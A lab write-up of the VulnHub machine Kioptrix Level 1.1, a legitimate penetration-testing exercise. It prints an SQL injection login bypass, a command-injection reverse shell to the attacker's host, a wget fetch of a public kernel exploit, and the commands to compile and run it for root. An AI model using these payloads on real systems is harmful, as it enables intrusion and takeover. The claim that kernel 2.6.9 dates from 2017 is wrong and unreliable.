



# Kioptrix Level 1.1 — VulnHub

| Field      | Value              |
|------------|--------------------|
| Platform   | VulnHub            |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | SQLi auth bypass, command injection, kernel exploit, local privilege escalation |

---

## 1. Reconnaissance

```bash
nmap -sV -sC 192.168.0.28
```

| Port   | State | Service | Version       |
|--------|-------|---------|---------------|
| 22/tcp | Open  | SSH     | OpenSSH 3.9p1 |
| 80/tcp | Open  | HTTP    | Apache        |

Only two ports — the web server on 80 is the primary attack surface.

---

## 2. SQL Injection — Login Bypass

Navigating to port 80 revealed a login panel. Tested for SQL injection with a standard bypass payload:

```sql
' OR 1=1 --
```

Applied to the username field, this terminates the SQL query early and appends a condition that always evaluates to true (`1=1`), causing the authentication check to pass regardless of the password. The server accepted it and logged in.

---

## 3. Command Injection via Ping Panel

After login, a **ping utility** was exposed — a web form that sent a hostname/IP to the server and displayed the ping output.



The form passed user input directly to the shell without sanitization. In Unix shells, the `;` character terminates one command and begins another. Testing with:

```
127.0.0.1; id
```

Confirmed command injection — the `id` output appeared alongside the ping results.



Launched a reverse shell:

```
127.0.0.1; bash -i >& /dev/tcp/<KALI-IP>/4444 0>&1
```

Started a listener on Kali (`nc -lvnp 4444`) and submitted the form. Shell received as user `apache`.

### Shell upgrade

The raw reverse shell is limited. Upgraded for full TTY:

```bash
# On target
python -c 'import pty; pty.spawn("/bin/bash")'
# On Kali: Ctrl+Z
stty raw -echo; fg
# Reset terminal
```

---

## 4. Privilege Escalation — Kernel Exploit

With a shell as `apache`, checked sudo permissions — none available. Identified the kernel version:

```bash
uname -a
# Linux kioptrix.level2 2.6.9-55.EL
```

Kernel **2.6.9** from 2017 (EOL). Searched for local privilege escalation exploits:

```bash
searchsploit linux kernel 2.6.9 local
searchsploit -m 9542
```

Exploit **9542** targets a local privilege escalation vulnerability in this kernel version. Transferred it to the target using a Python HTTP server:

```bash
# On Kali
python3 -m http.server 80

# On target
wget http://192.168.0.25/9542.c
gcc 9542.c -o exploit
./exploit
```



The exploit opened a bash shell as root.

---

## Key Takeaways

**Chain simple vulnerabilities to achieve root.** None of these individual steps is sophisticated: a basic SQLi bypass, an obvious command injection, and a public kernel exploit. The skill is chaining them in sequence.

**Command injection in web forms is still common.** Any server-side feature that runs system commands (ping, traceroute, nslookup, dig) is a candidate for injection if input isn't sanitized. The `;` and `&&` characters are the first things to test.

**Old kernels almost always have local privilege escalation exploits.** `uname -a` after initial access is mandatory — a kernel from 2004–2010 will have public exploits available on Exploit-DB.

**Always upgrade the shell before post-exploitation.** Raw reverse shells lack job control, break on `ctrl+c`, and can't run interactive programs. The pty + stty sequence takes 10 seconds and prevents a lot of frustration.
